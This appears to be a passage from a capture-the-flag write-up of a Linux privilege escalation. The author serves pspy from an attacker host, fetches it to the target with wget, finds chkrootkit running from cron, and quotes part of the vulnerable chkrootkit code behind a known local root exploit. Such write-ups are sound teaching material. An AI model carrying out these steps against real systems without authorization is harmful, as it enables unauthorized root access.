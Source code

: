 ![image](https://user-images.githubusercontent.com/10210108/83319439-6d94d880-a20c-11ea-9b57-8d7dbeedd003.png)


## Steps (root/system)

I ran linpeas again, and noticed an unusual folder called /report with what appeared to be a newly created file.

![image](https://user-images.githubusercontent.com/10210108/83319757-38d65080-a20f-11ea-85d2-25b2a4ca28e7.png)

I transferred [pspy](https://github.com/DominicBreuker/pspy) which is a tool that allows for unprivileged linux process snooping which I used to see if any cron jobs were running.

First I copied pspy32 to my working directory and set up a python http server

```
cp ~/tools/pspy/pspy32 .
sudo python3 -m http.server 80
```

Using wget I download pspy to the target

```
wget http://10.10.14.18/pspy32 -O /dev/shm/pspy32
```

Running pspy32 shows that /usr/bin/chkrootkit is running frequently

![image](https://user-images.githubusercontent.com/10210108/83319730-f44ab500-a20e-11ea-821d-e094f3904b71.png)

Doing a searchsploit search for chkrootkit shows a local privilege escalation exploit.

![image](https://user-images.githubusercontent.com/10210108/83319805-a2565f00-a20f-11ea-947d-ba7216ca8ccc.png)

Examining the contents of the file (searchsploit -x 33899) provides some background about the vulnerability and how to exploit it.

```
...truncated...

slapper (){
   SLAPPER_FILES="${ROOTDIR}tmp/.bugtraq ${ROOTDIR}tmp/.bugtraq.c"
   SLAPPER_FILES="$SLAPPER_FILES ${ROOTDIR}tmp/.unlock ${ROOTDIR}tmp/httpd \
   ${ROOTDIR}tmp/update ${ROOTDIR}tmp/.cinik ${ROOTDIR}tmp/.b"a
   SLAPPER_PORT="0.0:2002 |0.0:4156 |0.0:1978 |0.0:1812 |0.0:2015 "
   OPT=-an
   STATUS=0
   file_port=

   if ${netstat} "${OPT}"|${egrep} "^tcp"|${egrep} "${SLAPPER_PORT}">
/dev/null 2>&1
      then
      STATUS=1
      [ "$SYSTEM" = "Linux" ] && file_port=`netstat -p ${OPT} | \
         $egrep ^tcp|$egrep "${SLAPPER_PORT}" | ${awk} '{ print  $7 }' |
tr -d :`
   fi
   for i in ${SLAPPER_FILES}; do
      if [ -f ${i} ]; then
         file_port=$file_port $i
         STATUS=1
      fi
   done
   if [ ${STATUS} -eq 1 ] ;then
      echo "Warning: Possible Slapper Worm installed ($file_port)"
   else
      if [ "${QUIET}" != "t" ]; then echo "not infected"; fi
         return ${NOT_INFECTED}
```